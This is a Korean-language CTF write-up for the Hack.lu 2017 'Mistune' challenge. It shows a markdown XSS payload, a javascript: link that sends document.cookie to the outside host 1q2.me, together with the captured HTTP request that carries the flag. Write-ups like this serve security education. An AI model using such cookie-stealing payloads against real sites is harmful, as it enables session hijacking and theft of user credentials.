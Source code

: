 # [WEB] Hacklu 2017 - Mistune

# Description

Markdown parsers are fun. Now click here and steal the cookie!

# Analysis

페이지에 들어가면 Markdown Engine을 테스트하는 페이지가 나온다.

간단하게 `# Hello`를 삽입하면 마크다운 문법이 적용되어 결과가 나온다.

메뉴를 보면 Tester과 Send to Admin이 있다.

Tester는 메인페이지이며, Send to Admin에 들어가면 다음과 같은 정보를 얻을 수 있다.

>  #### Try to steal the cookie!
>
>  -  We use `mistune.Renderer(escape=True, hard_wrap=True)`
>  -  The admin will look at your converted Markdown.
>  -  The admin will click on links (<a>).
>  -  You can check the queue [here](https://mistune.flatearth.fluxfingers.net/queue)

딱 봐도 XSS하라는 문제같다.

여기서 중요한건 admin(bot)은 a 태그를 클릭한다는 점이다.

# Exploit

## Cross Site Script

맨 처음 시도한 방법은 `![x](http://1q2.me:10101)`이며 어드민에게 보내면 잠시 후 다음과 같은 응답값을 받을 수 있다.

```
GET / HTTP/1.1
Host: 1q2.me:10101
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.100 Safari/537.36
Accept: image/webp,image/apng,image/*,*/*;q=0.8
Referer: http://0.0.0.0/checkit
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.8
```

어...쿠키값이 없다.

그렇다면 `document.cookie`를 이용해보자.

```markdown
<javascript:location.href=`http://1q2.me:10101/?`+document.cookie>
```

위의 스크립트를 어드민에게 전송하면 잠시 후 다음과 같은 응답 값을 받는다.

```
GET /?Admin=flag{92da883eb1df9d1287ff25f1a1099f29} HTTP/1.1
Host: 1q2.me:10101
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://0.0.0.0/checkit
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.8
```

오 쿠키가 정상적으로 전송되서 플래그를 얻었다.

~~뭔가 다른 풀이도 많을 것 같은데, 이참에 마크다운 XSS를 수집해야겠다.~~



**flag{92da883eb1df9d1287ff25f1a1099f29}**